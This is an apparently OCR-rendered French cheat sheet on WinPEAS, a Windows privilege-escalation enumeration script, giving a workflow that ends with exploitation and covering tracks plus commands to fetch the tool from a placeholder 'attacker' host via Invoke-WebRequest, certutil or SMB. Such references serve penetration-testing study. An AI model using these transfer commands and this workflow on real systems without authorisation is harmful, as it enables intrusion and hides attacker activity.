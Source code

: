 # WinPEAS - Windows Privilege Escalation Awesome Script

## 🗂️ Workflow d'utilisation WinPEAS
1. Upload/exécution du script sur la cible Windows
   ↓
2. Énumération automatisée complète du système
   ↓
3. Analyse des vulnérabilités par couleur/priorité
   ↓
4. Exploitation des vecteurs identifiés
   ↓
5. Validation de l'escalade de privilèges
   ↓
6. Nettoyage des traces

## 📋 Vue d'ensemble

WinPEAS est un script d'énumération automatisée pour Windows qui identifie les vecteurs d'escalade de privilèges potentiels. Il analyse les configurations système, services, permissions et vulnérabilités connues.

> **💡 Explication Simple** : C'est un scanner automatique qui fouille le système Windows pour trouver toutes les failles et mauvaises configurations qui permettraient d'obtenir plus de privilèges.

## ⚡ Installation et Exécution

### Versions disponibles
```powershell
# WinPEAS.exe (version compilée)
# WinPEAS.bat (version batch)
# WinPEASx64.exe (version 64 bits)
# WinPEASany.exe (version .NET any CPU)
```

### Téléchargement et transfert
```powershell
# Serveur web sur attaquant
python3 -m http.server 8000

# Download sur cible
powershell -c "Invoke-WebRequest -Uri 'http://attacker:8000/winPEAS.exe' -OutFile 'C:\Windows\Temp\winpeas.exe'"
certutil -urlcache -f http://attacker:8000/winPEAS.exe winpeas.exe

# Via SMB
copy \\attacker\share\winPEAS.exe C:\Windows\Temp\
```

### Exécution avec options
```cmd
# Exécution basique
winPEAS.exe

# Mode quiet (moins verbeux)
winPEAS.exe quiet

# Mode cmd (version batch)
winPEAS.bat

# Avec output vers fichier
winPEAS.exe > output.txt
```